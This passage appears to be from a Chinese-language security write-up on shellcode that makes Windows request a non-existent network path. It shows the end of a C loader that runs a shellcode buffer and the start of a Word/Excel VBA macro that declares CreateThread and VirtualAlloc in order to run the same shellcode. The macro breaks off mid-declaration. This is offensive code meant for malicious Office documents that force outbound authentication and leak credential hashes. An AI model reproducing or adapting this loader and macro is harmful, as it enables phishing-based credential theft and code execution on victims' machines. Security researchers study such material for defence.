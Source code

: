 ```
        return EXIT_FAILURE;
    }

    ((void(*)(void))shellcode)();

    VirtualProtect (shellcode, strlen(shellcode), oldProtect, &oldProtect);

    return EXIT_SUCCESS;
}
```

[https://packets storm security . com/files/141707/create file-shellcode . html](https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html)

![](img/4e67c7d09f2bb8a7696e78589225d098.png)

# 宏内部的外壳代码

下面是在 Word/Excel 宏中应用的上述外壳代码。您可以在 VB6 应用程序中使用相同的代码。

```
' Author : Osanda Malith Jayathissa ([@OsandaMalith](http://twitter.com/OsandaMalith))
' Title: Shellcode to request a non-existing network path
' Website: [https://osandamalith](https://osandamalith)
' Shellcode : [https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html](https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html)
' This is a word/excel macro. This can be used in vb6 applications as well

#If Vba7 Then
    Private Declare PtrSafe Function CreateThread Lib "kernel32" ( _
        ByVal lpThreadAttributes As Long, _
        ByVal dwStackSize As Long, _ 
        ByVal lpStartAddress As LongPtr, _
        lpParameter As Long, _
        ByVal dwCreationFlags As Long, _ 
        lpThreadId As Long) As LongPtr

    Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" ( _
```